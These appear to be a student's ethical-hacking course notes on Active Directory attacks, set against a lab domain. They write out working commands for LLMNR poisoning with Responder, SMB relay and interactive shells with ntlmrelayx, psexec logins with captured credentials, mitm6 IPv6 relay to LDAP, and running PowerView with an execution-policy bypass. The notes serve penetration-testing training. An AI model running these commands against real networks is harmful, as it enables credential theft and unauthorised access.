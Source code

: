 # Practical Ethical Hacking

## Subnetting

[IP Adress Guild site](https://www.ipaddressguide.com/)

[Subnetting sheet](https://drive.google.com/file/d/1ETKH31-E7G-7ntEOlWGZcDZWuukmeHFe/view?usp=sharing)

## Active Directory

[Five way to attack AD](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

1. LLMNR Poisoning

![](.gitbook/assets/3%20%281%29.png)

Tool: [Responder](https://github.com/SpiderLabs/Responder) Capture the NTLMv2 hases with Responder on eth0.

```text
responder -I eth0 -rdwv
```

Crack the obtained hash using \#Hashcat or \#john

1. SMB Relay attack

   Instead of cracking the hashes gathered from responder, We can repay those hashes to machines and potentially gain access.

Requirements:

* SMB signing must be disabled on the target
* Relayed user credentials must be admin on machine

![](.gitbook/assets/2-2.png)

Run Responder,

```text
responder -I eth0 -rdwv
```

Tool: [NTLM Relay](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py)

```text
python ntlmrelayx.py -tf targets.txt -smb2support
```

Or

To get Interactive shell

```text
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

Interactive mode will start the Interactive SMB on specific port. As soon as it start Interactive smb set the netcat on that port.

```text
nc 127.0.0.1 1100
```

Checkout more -e, -c etc options of ntlmrelayx

1. Gaining Shell Access

   Prerequisite to get shell, Need smb username/password and user should be local admin

There are multiple ways we have to try, some might not work,

* Use metasploit with windows/smb/psexec
* Use psexec.py _Noicey_

  ```text
  psexec.py marvel.local/fcastel:password1@192.168.0.141
  ```

* psexec\_psh \(Metasploit\)
* smbexec.py
* wmiexec.py
* IPv6 Attack If Ipv6 enabled this attack creates DNS machine for IPv6 addresses. We can use victim machine to login to DC, when victim restart the machine. Once we get victim authenticated we can relay those credentials to LDAP.

Tool : [mitm6](https://github.com/fox-it/mitm6)

```text
mitm6 -d marvel.local
```

also need to set relay attack

```text
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakewpad.marvel.local -l lootme
```

Resources: [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

[https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

**Attacking AD Strategies** 

![](.gitbook/assets/1.png)

### Post Compromise Enumeration\*\*

1. [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

To run PowerView on Victim machine,

```text
powershell -ep bypass

. .\PowerView.ps1
```

_Nothing will showup but it will load the PowerView_

1. Bloodhound

